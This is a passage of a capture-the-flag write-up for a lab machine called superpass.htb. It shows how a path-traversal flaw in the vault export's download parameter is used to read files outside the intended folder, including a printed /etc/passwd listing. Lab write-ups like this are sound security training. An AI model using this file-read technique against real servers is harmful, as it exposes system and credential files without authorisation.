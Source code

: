 in /etc/hosts, add this hostname :

```text
10.10.11.203   superpass.htb
```

browse to http://superpass.htb :

![[Pasted image 20230702215516.png]]

![[Pasted image 20230702215606.png]]

Using button "Get Started" leads to a login page :

![[Pasted image 20230702215855.png]]

No default password could be identifyed. 

We can register a new account :

![[Pasted image 20230702224629.png]]

- username : `john` 
- password: `doe`

![[Pasted image 20230702224804.png]]

Then we can add a password in our vault :

![[Pasted image 20230703215021.png]]

Then we can export our vault to get a CSV File. we can analyse this with BurpSuite :

![[Pasted image 20230703220220.png]]

A call to `/vault/export` will forward to `/download?fn=file.csv`.

We can change the file to download :

![[Pasted image 20230703220900.png]]

Using a fake file reveal some informations :

![[Pasted image 20230707225332.png]]
![[Pasted image 20230707225448.png]]

The application is located in directory `/app/app/superpass/` and this is Werkzeug application.

the file is downloaded from `/tmp` folder. We can get `/etc/passwd` :

![[Pasted image 20230703221202.png]]

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
```